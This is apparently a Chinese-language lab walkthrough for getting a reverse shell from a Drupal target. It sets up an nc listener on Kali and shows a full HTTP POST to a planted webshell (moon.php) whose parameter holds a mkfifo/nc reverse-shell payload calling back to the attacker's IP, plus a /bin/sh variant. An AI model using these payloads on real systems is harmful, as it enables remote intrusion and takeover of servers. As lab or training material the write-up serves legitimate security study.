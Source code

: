 ![image-20230628232146849](image-20230628232146849.png)





首先在kali中使用nc进行监听

nc -lvnp 9000

在浏览器中访问http://192.168.5.132/drupal/moon.php



使用burp进行抓包准备反弹shell

```
POST /drupal/moon.php HTTP/1.1

Host: 192.168.5.132

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4482.0 Safari/537.36 Edg/92.0.874.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close

Cookie: has_js=1

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 91



moon=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash++2>%261|nc+192.168.5.129+9000+>/tmp/f
```



注意这里的 192.168.5.129为kali的ip地址

moon博客里写的是/bin/sh -i 但是我在测试时报错了

rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+‐i+2>%261|nc+192.168.0.136+9001+>/tmp/f



我这里改为 /bin/bash

moon=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/bash++2>%261|nc+192.168.5.129+9000+>/tmp/f


